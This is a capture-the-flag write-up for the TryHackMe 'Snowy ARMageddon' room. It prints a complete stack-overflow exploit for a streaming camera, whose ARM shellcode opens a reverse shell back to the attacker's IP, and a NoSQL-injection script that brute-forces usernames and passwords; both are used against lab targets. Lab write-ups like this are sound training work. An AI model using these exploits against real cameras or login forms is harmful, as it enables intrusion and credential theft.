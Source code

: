 # Snowy ARMageddon

This SideQuest can be found here: https://tryhackme.com/room/armageddon2r

## 1. What is the content of the first flag?

Starting of with a port scan on the provided IP address, we find port 22, 23, 8080 and 50628 which is definitely not a commonly found port.  
![image](https://github.com/LazyTitan33/CTF-Writeups/assets/80063008/1f52fcc7-0caf-4d1f-8084-c83dc51c7a7e)

Looking at it in the browser, we can see it's a Wireless Streaming Camera:  
![image](https://github.com/LazyTitan33/CTF-Writeups/assets/80063008/161ebb0a-0906-4b5e-bfc7-a107759ae86c)

A quick google search for any exploits for this camera, we can see an ARM challenge which seems to match up with the ARM that's capitalized in the challenge description. So we must be on the right track.

![image](https://github.com/LazyTitan33/CTF-Writeups/assets/80063008/3b2f41f9-42e8-43c1-9e30-1bbefb722891)

The description and details of the challenge can be found [here](https://no-sec.net/arm-x-challenge-breaking-the-webs/). Within this blog post we find that the camera is vulnerable to a Stack Overflow and we already have a python script for it. The challenging part was getting my attacker IP converted to ARM shellcode properly. I was not able to do that but I collaborated with a talented hacker by the name [william-barros-costa](https://github.com/william-barros-costa) who was able to manually convert my VPN IP to the shellcode needed for the foothold.

```python
from pwn import *
import sys
   
HOST = str(sys.argv[1])
PORT = 50628
LPORT = 4444
 
BADCHARS = b'\x00\x09\x0a\x0d\x20\x23\x26'
BAD = False
LIBC_OFFSET = 0x40021000
LIBGCC_OFFSET = 0x4000e000
RETURN = LIBGCC_OFFSET + 0x2f88    # libgcc_s.so.1: bx sp   0x40010f88
SLEEP = LIBC_OFFSET + 0xdc54    # sleep@libc 0x4002ec54
 
pc = cyclic_find(0x63616176)  # 284
r4 = cyclic_find(0x6361616f)  # 256
r5 = cyclic_find(0x63616170)  # 260
r6 = cyclic_find(0x63616171)  # 264
r7 = cyclic_find(0x63616172)  # 268
r8 = cyclic_find(0x63616173)  # 272
r9 = cyclic_find(0x63616174)  # 276
r10 = cyclic_find(0x63616175) # 280
sp = cyclic_find(0x63616177)  # 288
 
SC  = b'\x10\xd0\x4d\xe2'     # sub sp, 16
SC += b'\x68\x10\xa0\xe3\x01\x14\xa0\xe1\x73\x10\x81\xe2\x01\x14\xa0\xe1\x2f\x10\x81\xe2\x04\x10\x2d\xe5\x6e\x10\xa0\xe3\x01\x14\xa0\xe1\x69\x10\x81\xe2\x01\x14\xa0\xe1\x62\x10\x81\xe2\x01\x14\xa0\xe1\x2f\x10\x81\xe2\x04\x10\x2d\xe5'      # /bin/sh
SC += b'\x01\x10\x21\xe0\xce\x10\x81\xe2\x01\x14\xa0\xe1\x5f\x10\x81\xe2\x01\x14\xa0\xe1\x06\x10\x81\xe2\x81\x13\xa0\xe1\x05\x10\x81\xe2\x81\x10\xa0\xe1\x04\x10\x2d\xe5'  #10.6.95.206
SC += b'\x5c\x10\xa0\xe3\x01\x14\xa0\xe1\x11\x10\x81\xe2\x01\x18\xa0\xe1\x02\x10\x81\xe2\x04\x10\x2d\xe5'   # 4444; AF_INET, SOCK_STREAM
SC += b'\xef\x30\xa0\xe3\x03\x3c\xa0\xe1\x04\x30\x2d\xe5\xe3\x10\xa0\xe3\x01\x14\xa0\xe1\xa0\x10\x81\xe2\x01\x14\xa0\xe1\x70\x10\x81\xe2\x01\x14\xa0\xe1\x0b\x10\x81\xe2\x04\x10\x2d\xe5\xe1\x10\xa0\xe3\x01\x14\xa0\xe1\xa0\x10\x81\xe2\x01\x14\xa0\xe1\x10\x10\x81\xe2\x01\x14\xa0\xe1\x0c\x10\x81\xe2\x01\x10\x81\xe2\x04\x10\x2d\xe5\xe9\x10\xa0\xe3\x01\x14\xa0\xe1\x2d\x10\x81\xe2\x01\x18\xa0\xe1\x05\x10\x81\xe2\x04\x10\x2d\xe5\xe0\x10\xa0\xe3\x01\x14\xa0\xe1\x22\x10\x81\xe2\x01\x14\xa0\xe1\x1f\x10\x81\xe2\x01\x10\x81\xe2\x01\x14\xa0\xe1\x02\x10\x81\xe2\x04\x10\x2d\xe5\xe2\x10\xa0\xe3\x01\x14\xa0\xe1\x8f\x10\x81\xe2\x01\x18\xa0\xe1\x18\x10\x81\xe2\x04\x10\x2d\xe5'   # execve()
SC += b'\x04\x30\x2d\xe5\xe3\x10\xa0\xe3\x01\x14\xa0\xe1\xa0\x10\x81\xe2\x01\x14\xa0\xe1\x10\x10\x81\xe2\x01\x14\xa0\xe1\x02\x10\x81\xe2\x04\x10\x2d\xe5\xe1\x10\xa0\xe3\x01\x14\xa0\xe1\xa0\x10\x81\xe2\x01\x18\xa0\xe1\x0b\x10\x81\xe2\x04\x10\x2d\xe5'   # dup2(STDERR)
SC += b'\x04\x30\x2d\xe5\xe3\x10\xa0\xe3\x01\x14\xa0\xe1\xa0\x10\x81\xe2\x01\x14\xa0\xe1\x10\x10\x81\xe2\x01\x14\xa0\xe1\x01\x10\x81\xe2\x04\x10\x2d\xe5\xe1\x10\xa0\xe3\x01\x14\xa0\xe1\xa0\x10\x81\xe2\x01\x18\xa0\xe1\x0b\x10\x81\xe2\x04\x10\x2d\xe5'   # dub2(STDOUT)
SC += b'\x04\x30\x2d\xe5\xe2\x10\xa0\xe3\x01\x14\xa0\xe1\x87\x10\x81\xe2\x01\x14\xa0\xe1\x70\x10\x81\xe2\x01\x14\xa0\xe1\x0e\x10\x81\xe2\x04\x10\x2d\xe5\xe3\x10\xa0\xe3\x01\x14\xa0\xe1\xa0\x10\x81\xe2\x01\x14\xa0\xe1\x70\x10\x81\xe2\x01\x14\xa0\xe1\x31\x10\x81\xe2\x04\x10\x2d\xe5\xe0\x10\xa0\xe3\x01\x14\xa0\xe1\x21\x10\x81\xe2\x01\x14\xa0\xe1\x10\x10\x81\xe2\x01\x14\xa0\xe1\x01\x10\x81\xe2\x04\x10\x2d\xe5\xe1\x10\xa0\xe3\x01\x14\xa0\xe1\xa0\x10\x81\xe2\x01\x18\xa0\xe1\x0b\x10\x81\xe2\x04\x10\x2d\xe5'   # dup2(STDIN)
SC += b'\x04\x30\x2d\xe5\xe2\x10\xa0\xe3\x01\x14\xa0\xe1\x87\x10\x81\xe2\x01\x14\xa0\xe1\x70\x10\x81\xe2\x01\x14\xa0\xe1\x1c\x10\x81\xe2\x04\x10\x2d\xe5\xe3\x10\xa0\xe3\x01\x14\xa0\xe1\xa0\x10\x81\xe2\x01\x14\xa0\xe1\x70\x10\x81\xe2\x01\x14\xa0\xe1\xff\x10\x81\xe2\x04\x10\x2d\xe5\xe3\x10\xa0\xe3\x01\x14\xa0\xe1\xa0\x10\x81\xe2\x01\x14\xa0\xe1\x1f\x10\x81\xe2\x01\x10\x81\xe2\x01\x14\xa0\xe1\x10\x10\x81\xe2\x04\x10\x2d\xe5\xe2\x10\xa0\xe3\x01\x14\xa0\xe1\x8f\x10\x81\xe2\x01\x14\xa0\xe1\x10\x10\x81\xe2\x01\x14\xa0\xe1\x50\x10\x81\xe2\x04\x10\x2d\xe5\xe1\x10\xa0\xe3\x01\x14\xa0\xe1\xa0\x10\x81\xe2\x01\x14\xa0\xe1\xb0\x10\x81\xe2\x01\x14\xa0\xe1\x04\x10\x2d\xe5'   # connect()
SC += b'\x04\x30\x2d\xe5\xe2\x10\xa0\xe3\x01\x14\xa0\xe1\x87\x10\x81\xe2\x01\x14\xa0\xe1\x70\x10\x81\xe2\x01\x14\xa0\xe1\x1a\x10\x81\xe2\x04\x10\x2d\xe5\xe3\x10\xa0\xe3\x01\x14\xa0\xe1\xa0\x10\x81\xe2\x01\x14\xa0\xe1\x70\x10\x81\xe2\x01\x14\xa0\xe1\xff\x10\x81\xe2\x04\x10\x2d\xe5\xe0\x10\xa0\xe3\x01\x14\xa0\xe1\x22\x10\x81\xe2\x01\x14\xa0\xe1\x1f\x10\x81\xe2\x01\x10\x81\xe2\x01\x14\xa0\xe1\x02\x10\x81\xe2\x04\x10\x2d\xe5\xe2\x10\xa0\xe3\x01\x14\xa0\xe1\x81\x10\x81\xe2\x01\x18\xa0\xe1\x01\x10\x81\xe2\x04\x10\x2d\xe5\xe3\x10\xa0\xe3\x01\x14\xa0\xe1\xa0\x10\x81\xe2\x01\x14\xa0\xe1\x10\x10\x81\xe2\x01\x14\xa0\xe1\x01\x10\x81\xe2\x04\x10\x2d\xe5'   # socket()
#SC += b'\x01\x0c\xa0\xe3'   # mov r0, #256  ; sleep for 256s to avoid cache coherency issues
#SC += b'\x3a\xff\x2f\xe1'   # blx r10       ; r10 contains address of sleep@libc
SC += b'\x1d\xff\x2f\xe1'   # bx sp
 
info('Shellcode length: %d' % len(SC))
for i in range(len(SC)):
  if SC[i] in BADCHARS:
    print('BAD CHARACTER in position: %d!')
    BAD = True
if BAD:
  exit(1)
 
buffer  = b'A' * r10
buffer += p32(SLEEP)    # overwrite r10 with address of sleep()
buffer += p32(RETURN)   # bx sp
buffer += SC
 
s = remote(HOST, 50628)
s.send(b'GET /en/login.asp?basic=' + buffer + b' HTTP/1.0\r\n\r\n')
 
nc = listen(LPORT)
nc.wait_for_connection()
nc.interactive()
s.close()
nc.close()
```
Once inside the machine, we start ennumerating (a lot) and soon-ish find a password in /var/etc/umconfig.txt:  
![image](https://github-production-user-asset-6210df.s3.amazonaws.com/80063008/292659845-74c54aef-e394-45e7-a3fe-b3517e1de252.png?X-Amz-Algorithm=AWS4-HMAC-SHA256&X-Amz-Credential=AKIAIWNJYAX4CSVEH53A%2F20231228%2Fus-east-1%2Fs3%2Faws4_request&X-Amz-Date=20231228T091235Z&X-Amz-Expires=300&X-Amz-Signature=486e4cb500d84b45949b6e48dabbd390ee9344ac394c342b8d00dd0522633a49&X-Amz-SignedHeaders=host&actor_id=80063008&key_id=0&repo_id=600841946)

Y3tiStarCur!ouspassword=admin

We can use these creds to login the camera dashboard and see the first flag:  
![image](https://github-production-user-asset-6210df.s3.amazonaws.com/80063008/292659878-1bfd121c-5fff-431b-8ab9-dffc5f6bdd15.png?X-Amz-Algorithm=AWS4-HMAC-SHA256&X-Amz-Credential=AKIAIWNJYAX4CSVEH53A%2F20231228%2Fus-east-1%2Fs3%2Faws4_request&X-Amz-Date=20231228T091521Z&X-Amz-Expires=300&X-Amz-Signature=31217c2fa156ef311c49f47a64d4378841935920284c7c1810de05eaa2a077fd&X-Amz-SignedHeaders=host&actor_id=80063008&key_id=0&repo_id=600841946)

`THM{YETI_ON_SCREEN_ELUSIVE_CAMERA_STAR}`

## 2. What is the content of the yetikey2.txt file?

Going back on port 8080, we find a seemingly unaccesable page:  
![image](https://github-production-user-asset-6210df.s3.amazonaws.com/80063008/292659995-c4f867a8-4339-4b87-9337-dfc3ffb3880e.png?X-Amz-Algorithm=AWS4-HMAC-SHA256&X-Amz-Credential=AKIAIWNJYAX4CSVEH53A%2F20231228%2Fus-east-1%2Fs3%2Faws4_request&X-Amz-Date=20231228T091542Z&X-Amz-Expires=300&X-Amz-Signature=04a3b9e14dcf67293e0e95fb133be9bbf5ab56f2a009c5f757433c535a3f1826&X-Amz-SignedHeaders=host&actor_id=80063008&key_id=0&repo_id=600841946)

However, if we use `ffuf` to fuzz for files with any of the raft wordlists from seclists, but also add another slash at the end, we find that the login page is accessible:  
![image](https://github-production-user-asset-6210df.s3.amazonaws.com/80063008/292660022-00ca1ea3-41c6-4417-9c45-54cb819365bc.png?X-Amz-Algorithm=AWS4-HMAC-SHA256&X-Amz-Credential=AKIAIWNJYAX4CSVEH53A%2F20231228%2Fus-east-1%2Fs3%2Faws4_request&X-Amz-Date=20231228T091603Z&X-Amz-Expires=300&X-Amz-Signature=5921b1d41db392f4acdcd7f459e50012c551e5d6327efde83f5c0703eef49730&X-Amz-SignedHeaders=host&actor_id=80063008&key_id=0&repo_id=600841946)

Multiple different attempts were made to bypass the login and then we noticed this error which confirms a NoSQL database being used in the background:  
![image](https://github-production-user-asset-6210df.s3.amazonaws.com/80063008/292660048-54053351-d2cb-4d46-9549-0b93131a564e.png?X-Amz-Algorithm=AWS4-HMAC-SHA256&X-Amz-Credential=AKIAIWNJYAX4CSVEH53A%2F20231228%2Fus-east-1%2Fs3%2Faws4_request&X-Amz-Date=20231228T091616Z&X-Amz-Expires=300&X-Amz-Signature=5bbb9e9d5ffd3bd7da5c4d71a87412a55310d8063e5016050b36e98e76b517df&X-Amz-SignedHeaders=host&actor_id=80063008&key_id=0&repo_id=600841946)

I grabbed [this](https://book.hacktricks.xyz/pentesting-web/nosql-injection#brute-force-login-usernames-and-passwords-from-post-login) script from hacktricks and modified it a bit to start enumerating. As you can see from the commented code, I enumerated users first based on the number of characters in the password.

```python
import requests
import string

url = " http://10.10.29.186:8080/login.php/"
proxy = {"http":"http://127.0.0.1:8080"}
headers = {'Content-type': 'application/x-www-form-urlencoded'}
possible_chars = list(string.ascii_letters) + list(string.digits) + ["\\"+c for c in string.punctuation+string.whitespace ]
def get_password(username):
    print("Extracting password of "+username)
    params = {"username":username, "password[$regex]":""}
    password = "^"
    while True:
        for c in possible_chars:
            params["password[$regex]"] = password + c + ".*"
            pr = requests.post(url, data=params, headers=headers, proxies=proxy, verify=False, allow_redirects=False)
            if 'Invalid' not in pr.text:
                password += c
                break
        if c == possible_chars[-1]:
            print("Found password "+password[1:].replace("\\", "")+" for username "+username)
            return password[1:].replace("\\", "")

def get_usernames():
    # usernames = ['Blizzardson','Frostbite', 'Grinchenko', 'Iciclevich', 'Northpolinsky','Scroogestein', 'Tinselova'] #users found with exactly 20 chars in the password (.{20})
    # usernames = ['Frosteau'] #users found with less than 20 chars in the password (^.{1,19}$)
    usernames = []
    params = {"username[$regex]":"", "password[$regex]":"^.{21,}$"} #regex to search users with more than 20 chars in the password
    for c in possible_chars:
        username = "^" + c
        params["username[$regex]"] = username + ".*"
        pr = requests.post(url, data=params, headers=headers, proxies=proxy, verify=False, allow_redirects=False)
        if 'Invalid' not in pr.text:
            print("Found username starting with "+c)
            while True:
                for c2 in possible_chars:
                    params["username[$regex]"] = username + c2 + ".*"
                    if int(requests.post(url, data=params, headers=headers, proxies=proxy, verify=False, allow_redirects=False).status_code) == 302:
                        username += c2
                        print(username)
                        break

                if c2 == possible_chars[-1]:
                    print("Found username: "+username[1:])
                    usernames.append(username[1:])
                    break
    return usernames


for u in get_usernames():
    get_password(u)
```
After finding the usernames, the script automatically starts abusing the NoSQL injection to also get their passwords. The only one out of the ordinary seems to be the user `Frosteau` which has a password that's lower than 20 characters. Everyone else has the password set at 20 characters.

`Frosteau:HoHoHacked`

Using these credentials to login, we get redirects to the root website which again, tells us that we are forbidden. However, we need to keep in mind the slash trick at the end, which is a misconfiguration in the apache server. Adding the slash at the end of /index.php/ we get directed to the dashboard which has the content of the yetikey2.txt:  
![image](https://github-production-user-asset-6210df.s3.amazonaws.com/80063008/292660268-3779b5f7-6659-4ff0-bccb-e5daaa66c6d7.png?X-Amz-Algorithm=AWS4-HMAC-SHA256&X-Amz-Credential=AKIAIWNJYAX4CSVEH53A%2F20231228%2Fus-east-1%2Fs3%2Faws4_request&X-Amz-Date=20231228T091628Z&X-Amz-Expires=300&X-Amz-Signature=d42f9e7baa746b5ea50ffe282a4b0be3ba0aec3e4e8cd2748bdd07e84cfcd118&X-Amz-SignedHeaders=host&actor_id=80063008&key_id=0&repo_id=600841946)

`2-K@bWJ5oHFCR8o%whAvK5qw8Sp$5qf!nCqGM3ksaK`
